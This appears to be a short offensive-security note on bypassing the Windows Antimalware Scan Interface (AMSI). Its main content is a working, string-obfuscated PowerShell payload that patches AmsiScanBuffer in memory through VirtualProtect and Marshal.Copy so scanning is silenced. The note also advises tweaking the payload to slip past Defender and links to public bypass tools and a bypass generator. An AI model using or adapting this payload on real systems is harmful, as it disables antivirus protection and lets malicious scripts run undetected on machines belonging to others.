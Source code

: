 ## AMSI

The Antimalware Scan Interface (AMSI) is a feature of Windows 10. Effectively it lets a process check input with the registered anti-virus product.

### Bypassing AMSI

The trick to bypassing AMSI is to effectively turn it off. Windows won't let you do this, by flagging attempts to turn AMSI off. So the main thing to do is obfuscate the script to do so. Any published bypass script will be flagged by defender (or other AV). So you will have to tweak and make your own version. Recommendation is to spin up a Win 10 VM and write the bypass step by step, see what parts are triggering the anti-virus.

#### Powershell

Example of a obfuscated AMSI powershell payload I have done, based on Rasta Mouse's work.

```powershell
$Simon= @"
using System;
using System.Runtime.InteropServices;

public class Simon {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Simon

$LoadLibrary = [Simon]::LoadLibrary("am" + "si.dll")
$Maglok = [Simon]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
$command = '[Simon]::Virtual' + 'Protect($Maglok, [uint32]5, 0x40, [ref]$p)'
iex $command
$command2 = '[Byte[]] (0x'+'B'+'8, 0x'+'5'+'7, 0'+'x00, 0'+'x0'+'7, 0x8'+'0, '+'0xC'+'3)'
$values = iex $command2
[System.Runtime.InteropServices.Marshal]::Copy($values, 0, $Maglok, 6)
```

### Useful links

Rasta mouse's AMSI bypass scripts: [https://github.com/rasta-mouse/AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)
Amsi.fail, automated AMSI bypass generation: [https://amsi.fail/](https://amsi.fail/)

